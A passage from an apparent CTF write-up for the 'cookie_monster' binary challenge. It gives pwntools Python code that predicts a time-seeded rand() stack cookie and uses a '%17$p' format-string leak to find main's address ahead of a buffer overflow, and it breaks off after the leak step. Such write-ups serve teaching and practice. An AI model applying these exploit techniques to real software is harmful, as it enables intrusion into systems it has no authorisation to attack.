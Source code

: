 
#### Compute the `saved_cookie` value

```
from pwn import *

p = process('./cookie_monster')
#p = remote('ctf.umbccd.io', 4200)

from ctypes import *
libc = cdll.LoadLibrary('libc.so.6')
libc.srand(libc.time(None))
saved_cookie = libc.rand()
```

Python has a convenient way to [call C functions](https://docs.python.org/3/library/ctypes.html); this code will use glibc's `time`, `srand`, and `rand` functions to return the same value as:

```
tVar1 = time((time_t *)0x0);
srand((uint)tVar1);
saved_cookie = rand();
```

from `conversation` above.  

> There is a small probability (increased when running over the network) that the clocks could be off by a second and an error `"*** Stack Smashing Detected *** : Cookie Value Corrupt!"` error will be emitted.  Just rerun.
>
> Check that your system clock is accurate--NTP should be enabled.

This step is necessary because the buffer overflow will overwrite `saved_cookie` (`saved_cookie` is a poor mans stack smashing detection), so we need to overwrite it with the correct value.

> I suppose it is possible to read it from memory, its directly above EBP, and in the stack as parameter 9 (or at least the lower order 32-bit (int)):
>
> ```
> printf "0x%08x\n" $(echo $((0x7b366b8155555300 & 0xFFFFFFFF)))
> 0x55555300
> ```
>
> However the `fgets` call is limited to 7 bytes (the 8th does not count--`fgets` reads one less)--there's isn't enough space to leak two values.

#### Leak the address of `main+0` and compute the location of `flag`

```
p.recvuntil('name?\n')
p.sendline('%17$p')
_ = p.recvuntil('cookie?\n')

main = int(_[:21][7:],16)
print(hex(main))
```
